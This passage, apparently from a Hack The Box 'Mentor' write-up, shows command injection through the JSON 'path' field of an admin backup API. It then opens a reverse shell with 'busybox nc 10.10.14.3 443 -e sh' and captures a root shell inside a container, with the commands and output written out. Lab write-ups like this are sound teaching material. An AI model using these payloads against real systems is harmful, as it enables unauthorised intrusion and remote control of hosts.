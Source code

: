 It works but I'm not sure what to do with it yet:

```json
$ curl http://api.mentorquotes.htb/admin/backup -H "Content-Type: application/json" -H "Authorization: $token" -d '{"path": "/etc/passwd"}'
{"INFO":"Done!"}
```

It responds "Done!" no matter what I pass for the argument. After a while, I find a command injection:

```json
$ curl http://api.mentorquotes.htb/admin/backup -H "Content-Type: application/json" -H "Authorization: $token" -d '{"path": "x;ping -c5 10.10.14.3;"}'
{"INFO":"Done!"}
```

![](_/htb-mentor-20241218-5.png)

This is good enough for a reverse shell:

```text
$ curl http://api.mentorquotes.htb/admin/backup -H "Content-Type: application/json" -H "Authorization: $token" -d '{"path": "x;busybox nc 10.10.14.3 443 -e sh;"}'
```

```text
$ rlwrap nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.193 39713
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

I get excited about the `root` user but then realize it's a container:

```console
ls -la /
total 172
drwxr-xr-x    1 root     root          4096 Jan  2 17:21 .
drwxr-xr-x    1 root     root          4096 Jan  2 17:21 ..
-rwxr-xr-x    1 root     root             0 Jan  2 17:21 .dockerenv
drwxr-xr-x    3 root     root          4096 Dec 11  2022 API
drwxr-xr-x    1 root     root          4096 Nov 10  2022 app
-rw-r--r--    1 root     root        101888 Jan  2 20:07 app_backkup.tar
drwxr-xr-x    1 root     root          4096 Jun  8  2022 bin
drwxr-xr-x    5 root     root           340 Jan  2 17:21 dev
drwxr-xr-x    1 root     root          4096 Jan  2 17:21 etc
drwxr-xr-x    1 root     root          4096 Nov 10  2022 home
...
```
